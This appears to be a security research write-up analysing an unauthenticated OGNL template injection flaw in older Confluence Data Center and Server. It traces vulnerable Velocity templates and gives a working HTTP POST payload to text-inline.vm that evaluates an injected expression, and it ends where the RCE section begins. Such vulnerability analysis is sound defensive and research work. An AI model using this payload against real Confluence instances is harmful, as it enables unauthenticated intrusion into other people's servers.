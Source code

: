 # Overview

### Initial Analysis

A template injection vulnerability on older versions of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance. Customers using an affected version must take immediate action. Most recent supported versions of Confluence Data Center and Server are not affected by this vulnerability as it was ultimately mitigated during regular version updates.

![alt text](/Research_CVE/images/image.png)

Inspecting files that had OGNL-related changes and potential vulnerabilities like dangerous sinks leading to OGNL Injection, such as ``findValue`` and ``translateVariables``, among others. 

### Patch

![alt text](/Research_CVE/images/image-9.png)

# Analysis

### Identifying the Unauthenticated Attack Surface

The actual "views" in Confluence are rendered using Velocity template files. They can be accessed by hitting ``*.vm`` files, and they continue render even user no need to authenticate.

After that, searching for template files that accepted ``$parameters`` and then passed them to potentially dangerous sinks. We identified several files that directly passed the parameter values to ``$ognl.findValue`` or ``$stack.findValue``. For instance, one such file is ``confluence/template/xhtml/pagelist.vm``:

```java
#set ($pageList = $stack.findValue($parameters.pages))
```

Set up a breakpoint to debug at ``findValue``. However, when we attempted to access ``/confluence/template/xhtml/pagelist.vm`` with ``pages`` param, was not triggered.

Maybe ``$parameters.pages`` be sent by an Object instead string. Add the double quotes around ``$parameters.pages``. It would be worked.

```java
#set ($pageList = $stack.findValue("$parameters.pages"))
```

Next, look for any ``findValue`` that take in ``$parameters`` inside double quotes. And we found ``confluence/template/aui/text-inline.vm``.

```java
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
```

### OGNL

Next, we put a breakpoint on ``getText`` as well to be sure we are able to reach there and It worked. 

![alt text](/Research_CVE/images/image-5.png)

Next, breaking out of the ``getText`` function and append our OGNL expression ``#{3*33}`` but it was HTML encoded. Use some trick like unicode escapes to break out and it worked.

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

label=test\u0027%2b#{3*33}%2b\u0027
```

![alt text](/Research_CVE/images/image-6.png)

### RCE via OGNL injection

According to (bypass OGNL)[https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)-,For%20Velocity%3A,-.KEY_velocity.struts2.context]

